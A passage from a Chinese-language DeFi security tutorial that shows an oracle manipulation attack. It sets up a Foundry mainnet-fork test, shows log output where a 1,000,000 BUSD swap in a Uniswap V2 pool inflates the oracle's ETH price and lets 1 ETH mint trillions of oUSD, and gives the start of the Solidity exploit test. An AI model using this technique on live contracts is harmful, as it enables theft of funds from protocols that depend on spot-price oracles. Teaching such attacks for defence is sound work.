 2. 在根目录下创建 `.env` 环境变量文件，并在其中添加主网rpc，用于创建本地测试网。

  ```
  MAINNET_RPC_URL= https://rpc.ankr.com/eth
  ```

3. 将这一讲的代码，`Oracle.sol` 和 `Oracle.t.sol`，分别复制到根目录的 `src` 和 `test` 文件夹下，然后使用下列命令启动攻击脚本。

  ```
  forge test -vv --match-test testOracleAttack
  ```

4. 我们可以在终端中看到攻击结果。在攻击前，预言机 `getPrice()` 给出的 `ETH`
价格为 `1216 USD`，是正常的。但在我们使用 `1,000,000` BUSD 在 UniswapV2 的 `WETH-BUSD` 池子中买入 `WETH` 之后，预言机给出的价格被操纵为 `17,979,841,782,699 USD`。这时，我们可以轻松的用 `1 ETH` 兑换17万亿枚 `oUSD`，完成攻击。
  ```shell
  Running 1 test for test/Oracle.t.sol:OracleTest
  [PASS] testOracleAttack() (gas: 356524)
  Logs:
    1. ETH Price (before attack): 1216
    2. Swap 1,000,000 BUSD to WETH to manipulate the oracle
    3. ETH price (after attack): 17979841782699
    4. Minted 1797984178269 oUSD with 1 ETH (after attack)

  Test result: ok. 1 passed; 0 failed; finished in 262.94ms
  ```

攻击代码：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;
import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/Oracle.sol";

contract OracleTest is Test {
    address private constant alice = address(1);
    address private constant WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address private constant BUSD = 0x4Fabb145d64652a948d72533023f6E7A623C7C53;
    address private constant ROUTER = 0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D;
    IUniswapV2Router router;
    IWETH private weth = IWETH(WETH);
    IBUSD private busd = IBUSD(BUSD);
    string MAINNET_RPC_URL;
    oUSD ousd;

    function setUp() public {
        MAINNET_RPC_URL = vm.envString("MAINNET_RPC_URL");
        // fork指定区块
        vm.createSelectFork(MAINNET_RPC_URL,16060405);
        router = IUniswapV2Router(ROUTER);
        ousd = new oUSD();
    }

    //forge test --match-test  testOracleAttack  -vv
    function testOracleAttack() public {
        // 攻击预言机
        // 0. 操纵预言机之前的价格
        uint256 priceBefore = ousd.getPrice();
        console.log("1. ETH Price (before attack): %s", priceBefore); 
        // 给自己账户 1000000 BUSD
        uint busdAmount = 1_000_000 * 10e18;
        deal(BUSD, alice, busdAmount);
        // 2. 用busd买weth，推高顺时价格
        vm.prank(alice);
        busd.transfer(address(this), busdAmount);
        swapBUSDtoWETH(busdAmount, 1);
```